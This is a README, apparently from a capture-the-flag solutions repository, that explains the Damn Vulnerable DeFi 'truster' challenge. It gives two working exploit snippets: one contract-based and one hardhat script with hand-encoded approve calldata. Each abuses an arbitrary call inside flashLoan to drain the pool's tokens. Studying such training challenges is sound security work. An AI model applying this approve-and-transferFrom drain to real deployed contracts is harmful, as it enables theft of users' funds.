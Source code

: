 # Damn Vulnerable DeFi

[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz)解题的一些代码

环境使用的hardhat，具体可以看[文档](https://hardhat.org/hardhat-runner/docs/getting-started#overview)

准备环境
```
npm install
```

运行
```
npx hardhat test test/truster/truster.nocontract.ts
```

## [truster](https://www.damnvulnerabledefi.xyz/challenges/truster/)

truster这个题目很简单，形成漏洞的原因是`flashLoan`函数能够接收一个地址，并且在合约中有使用`functionCall`去调用传入的地址去执行传入地址的函数。
所以解题方法是调用`flashLoan`函数传入token的地址，并且构造一个调用token的approve函数将token授权给合约，完成之后就使用`transferFrom`即可将token转移给攻击者。

如果要自己写一个合约来解这个题目，可以用如下的代码
```typescript
// 构造approve给攻击合约的calldata
bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), amount);
// 调用flashLoan执行approve
TrusterLenderPool(pool).flashLoan(0, msg.sender, token, data);
IERC20(token).transferFrom(pool, msg.sender, amount);
```

大部分解题的都使用的这个方法，但是token approve的目标其实不一定需要合约账户，外部账户也是可以的，所以我们可以直接去调用`flashLoan`函数将token 
approve给自己，然后自己去调用一下transferFrom转移个自己

实现代码如下
```typescript
const attackAddress = `${player.address}`.replace('0x', '').toLowerCase();
const attackData = `0x095ea7b3000000000000000000000000${attackAddress}00000000000000000000000000000000000000000000d3c21bcecceda1000000`;
await pool.connect(player).flashLoan(0, player.address, token.address, attackData);
await token.connect(player).transferFrom(pool.address, player.address, TOKENS_IN_POOL);
```

其中`attackData`就是调用合约函数编码之后的值

attackData = bytes4(Keccak256(函数签名)) + approve地址(填充满32字节) + approve金额(填充满32字节)
